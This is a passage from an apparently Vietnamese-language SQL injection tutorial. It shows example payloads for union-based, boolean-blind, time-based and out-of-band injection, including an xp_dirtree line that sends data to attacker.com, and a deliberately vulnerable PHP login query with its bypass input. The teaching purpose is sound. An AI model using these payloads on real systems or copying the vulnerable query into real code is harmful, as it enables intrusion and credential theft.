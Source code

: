**Union-based:**
Sử dụng UNION operator để kết hợp kết quả của câu query gốc với câu query độc hại.

```sql
' UNION SELECT null,username,password FROM admin--
```

### **Inferential SQL Injection (Blind)**
*"Loại bí ẩn, phải đoán mò"*

**Boolean-based:**
```sql
-- Nếu admin user tồn tại, trang trả về content bình thường
' AND (SELECT COUNT(*) FROM users WHERE username='admin')=1--

-- Nếu không tồn tại, trang trả về content khác hoặc lỗi
' AND (SELECT COUNT(*) FROM users WHERE username='admin')=0--
```

**Time-based:**
```sql
-- Nếu điều kiện đúng, database sẽ "ngủ" 5 giây
' AND IF(1=1,SLEEP(5),0)--

-- Nếu sai, response trả về ngay lập tức
' AND IF(1=2,SLEEP(5),0)--
```

### **Out-of-band SQL Injection**
*"Loại gián điệp, dùng kênh bí mật"*

Sử dụng kênh khác (DNS, HTTP requests) để truyền dữ liệu:
```sql
'; EXEC xp_dirtree '\\attacker.com\share\'+@@version+'\'--
```

## Real-world Attack Scenarios: "Chuyện Có Thật Từ Đời Thực"

### Scenario 1: "Login Bypass Kinh Điển"

**Vulnerable Code:**
```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

**Attack:**
```
Username: admin'--
Password: anything
```

**Resulting Query:**
```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'
```
